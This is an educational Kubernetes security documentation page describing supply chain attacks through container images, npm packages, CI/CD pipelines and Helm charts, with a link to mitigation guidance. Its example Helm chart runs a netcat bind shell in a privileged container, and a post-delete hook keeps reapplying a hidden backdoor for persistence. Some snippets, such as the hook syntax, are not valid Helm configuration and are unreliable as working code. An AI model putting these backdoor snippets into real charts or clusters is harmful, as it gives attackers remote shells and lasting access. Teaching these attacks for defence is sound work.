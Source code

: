 ```yaml
---
sidebar_position: 6
title: "Supply Chain Attacks"
description: "How attackers compromise container images, dependencies, CI/CD pipelines, and Helm charts to infiltrate Kubernetes clusters."
---
```


# Supply Chain Attacks

Supply chain attacks in Kubernetes target the **container build process, dependencies, CI/CD pipelines, or Helm charts** to introduce malicious components into your cluster. These attacks can lead to **unauthorized access, persistent backdoors, and data exfiltration**.

---

## Exploitation Steps: Poisoning the Software Supply Chain

An attacker compromises the cluster by introducing malicious components during the software delivery lifecycle.

### 1. Publish a Malicious Container Image

The attacker creates and pushes a backdoored image to a public registry:

```bash
docker build -t attacker/malicious-app .
docker push docker.io/attacker/malicious-app
```

---

### 2. Deploy Unverified Image in Production

A Kubernetes workload unknowingly uses the attacker’s image:

```yaml
apiVersion: apps/v1
kind: Deployment
metadata:
  name: vulnerable-app
spec:
  template:
    spec:
      containers:
        - name: app
          image: docker.io/attacker/malicious-app
```

No signature validation or source verification is performed.

---

### 3. Inject Malicious Dependencies

The attacker publishes a compromised package:

```bash
npm publish compromised-library
```

It is pulled automatically by an unsuspecting developer into a container image, enabling **remote code execution** in production.

---

### 4. Tamper with the CI/CD Pipeline

The attacker steals CI secrets and modifies manifests:

```bash
kubectl apply -f attacker-modified-deployment.yaml
```

This injects malicious logic into deployments automatically.

---

## Exploitation Steps: Deploying a Malicious Helm Chart

Helm charts offer another attack surface for supply chain compromise.

### 1. Publish a Malicious Helm Chart

The attacker embeds a backdoor in a Helm chart:

```yaml
containers:
  - name: backdoor-container
    image: attacker/malicious-image
    securityContext:
      privileged: true
    command: ["/bin/sh", "-c"]
    args: ["while true; do nc -lvp 9001 -e /bin/sh; done"]
```

They then push it to a public repository:

```bash
helm package malicious-app
helm push malicious-app-1.0.0.tgz oci://public-helm-repo
```

---

### 2. Install Chart Without Verification

A user installs the chart without checking provenance:

```bash
helm repo add untrusted-repo oci://public-helm-repo
helm install vulnerable-app untrusted-repo/malicious-app
```

The **malicious workload** is now running.

---

### 3. Bypass Pod Security Policies

The attacker escalates privileges through insecure templates:

```yaml
apiVersion: policy/v1beta1
kind: PodSecurityPolicy
metadata:
  name: privileged-psp
spec:
  privileged: true
  runAsUser:
    rule: RunAsAny
  seLinux:
    rule: RunAsAny
```

They enable this at install:

```bash
helm install --set securityPolicy.privileged=true exploit-app
```

---

### 4. Maintain Persistence After Uninstall

A Helm hook ensures the backdoor remains:

```yaml
hooks:
  post-delete:
    - exec:
        command:
          [
            "/bin/sh",
            "-c",
            "while true; do sleep 60; kubectl apply -f /tmp/hidden-backdoor.yaml; done",
          ]
```

Even if the user runs:

```bash
helm uninstall exploit-app
```

The malicious deployment **reinstalls itself**.

---

### Result

The attacker successfully compromises the Kubernetes cluster via supply chain vectors, enabling:

- Deployment of malicious containers and packages
- Privilege escalation
- Long-term persistence
- CI/CD pipeline abuse

---

## Mitigation

➡ [Securing the Kubernetes Supply Chain](/docs/best_practices/supply_chain_security/intro)
